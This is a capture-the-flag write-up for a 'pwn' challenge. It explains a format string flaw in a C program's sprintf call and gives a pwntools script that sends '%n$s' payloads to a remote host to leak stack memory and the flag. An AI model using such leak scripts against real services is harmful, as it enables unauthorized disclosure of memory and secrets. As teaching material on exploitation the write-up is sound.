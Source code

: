 # Printed — Writeup

**Category:** *pwn*

## Solution

The following C source code was provided:

<p align="center">
<img src="../../resources/BCACTF 6.0/Printed1.png" alt="The source code"/>
</p>

I noticed a possble **format string** vulnerability in the `show` function. The `sprintf` call used the **name** input directly, which allowed me to inject format specifiers and potentially read adjacent memory, including the flag. Because the flag is string data that is not given as an argument, the specifier `%n$s` attempts to access the _n_-th argument. Since that argument was never provided, it reads whatever is located at the position where the _n_-th argument **would be** on the stack, potentially leaking data from memory:

<p align="center">
<img src="../../resources/BCACTF 6.0/Printed2_0.png" alt="Attempt with SIGSEGV"/>
</p>
<p align="center">
<img src="../../resources/BCACTF 6.0/Printed2_1.png" alt="Attempt with data access"/>
</p>

To exploit the target program and get the flag from the host I wrote the following script:

```python
from pwn import *

context.log_level = 'error'

for i in range(1, 100):
	try:
		p = remote('example.com', 1234)
		payload = f'%{i}$s'.encode()
		p.sendline(payload)
		ans = p.recvline()
		print(ans.decode(errors='ignore'))
	except Exception:
		print('nothing')
		
	p.close()
	sleep(0.2)
```

Using this method, I was able to retrieve the flag:

<p align="center">
<img src="../../resources/BCACTF 6.0/Printed3.png" alt="The flag"/>
</p>
